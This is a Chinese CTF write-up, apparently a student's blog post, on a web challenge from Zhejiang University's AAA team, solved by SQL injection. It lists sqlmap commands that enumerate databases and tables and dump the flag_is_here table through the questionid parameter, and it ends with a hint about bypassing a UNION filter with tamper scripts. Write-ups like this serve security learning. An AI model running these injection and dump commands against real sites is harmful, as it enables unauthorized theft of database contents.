

CTF题目中一道WEB题目，知识点为SQL注入，题目来自[浙江大学AAA战队](https://zjusec.com)。

## 题目描述
点击题目链接后进入网站：  
  
看样子是提交表单后会通过get方式向后台提交questionid，后台的php代码中执行sql语句根据questionid从数据库中查询信息。这里题目也给出了提示。 

>Q: 本题的Flag在哪?  
A: 在后台数据库中, 一个叫做flag_is_here的表中  

提示说明flag存放在flag_is_here的数据表中，接下来就要通过sql注入获取数据表中的信息。

>Q: 有什么工具可以帮我吗?  
A: sqlmap (请自行google)  

大佬们又给出了提示，用sqlmap

## 解题过程
先安装sqlmap，这么强大的工具在ubuntu下自然看看apt-get能不能装了：  
```shell
sudo pip install sqlmap
```
直接搞定，hin开心啊！但是不会用啊，还好hint中给出了[参考教程](http://www.freebuf.com/articles/web/29942.html)：  
首先表单里提交一个数据看看get请求格式：
```
http://10.214.xxx.xxx:xxxx/?questionid=1
```
以及有没有cookie，这里直接用chrome的插件看到是没有cookie的；  
接下来参照教程，用sqlmap进行注入:  
先试着获取以下当前数据库和用户名  
```
sqlmap -u"http://10.214.xxx.xxx:xxxx/?questionid=1" -b –current-db –current-user
```
貌似没有看到数据库和用户，菜鸡表示这里不太明白。
看看有哪几个数据库？
```
 sqlmap -u"http://10.214.xxx.xxx:xxxx/?questionid=1" --dbs
```
可以查到有一个叫做**aaa_web2**的数据库  
查询一波数据表？  
```
sqlmap -u"http://10.214.xxx.xxx:xxxx/?questionid=1" -D aaa_web2 --tables
```
看到flag_is_here的数据表了，查询一波数据！  
```
sqlmap -u"http://10.214.xxx.xxx:xxxx/?questionid=1" -D aaa_web2 -T flag_is_here --columns  
sqlmap -u"http://10.214.xxx.xxx:xxxx/?questionid=1" -D aaa_web2 -T flag_is_here -C an_extra_message,author,flag --dump
```
flag的值就被成功找到了！
题目中提示还有一个加分项，现在还没搞定。  
>Q: 有加分项吗?
A: 有, 本题限制了sqlmap的UNION注入
  判断questionid中是否出现了" union "(注意旁边的两个空格), 如果有, 则停止继续执行
  如果你能绕过这个限制, 能加分。 提示: 使用sqlmap的tamper